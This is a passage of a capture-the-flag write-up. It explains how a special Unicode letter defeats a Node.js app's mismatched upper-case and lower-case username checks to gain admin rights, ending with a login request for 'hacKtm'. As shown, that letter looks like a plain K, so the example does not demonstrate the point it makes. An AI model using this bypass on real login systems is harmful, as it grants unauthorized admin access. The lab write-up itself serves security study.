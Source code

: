 The default rights for each user are:

`[ "message", "height", "width", "version", "usersOnline", "adminUsername", "backgroundColor" ]`

We need to add `n` and `p` to our users' rights list.

The method `/updateUser` allows us to send a list of rights to add to our users rights list.

But when we POST `["p", "n"]` we get:

`"You're not an admin!"`

as a response due to the following code:

```javascript
if (!user || !isAdmin(user)) {
  res.json(err("You're not an admin!"));
  return;
}
```

------

## Bypassing isAdmin(u)

```javascript
function isAdmin(u) {
  return u.username.toLowerCase() == config.adminUsername.toLowerCase();
}
```

We need to make `username.toLowerCase() === adminUsername.toLowerCase()`.

If we try to login (`/login`) with the admin username: `hacktm` we get:

`Invalid creds`

Its due to `isValidUser(u)` in `/login`. It checks that:

```javascript
u.username.toUpperCase() !== config.adminUsername.toUpperCase()
````

So we need: 
* `u.username.toUpperCase() !== config.adminUsername.toUpperCase()`
* `username.toLowerCase() === adminUsername.toLowerCase()`

Thankfully unicode provides us with characters that satify this conditaion:
```
"K".toUpperCase() = "K"
"K".toLowerCase() = "k"
```

That means:

`isValidUser("hacKtm")` is `true` and `isAdmin("hacKtm")` is `true` as well!

We POST to `/login`:

```javascript
{
	"username": "hacKtm"
}
```
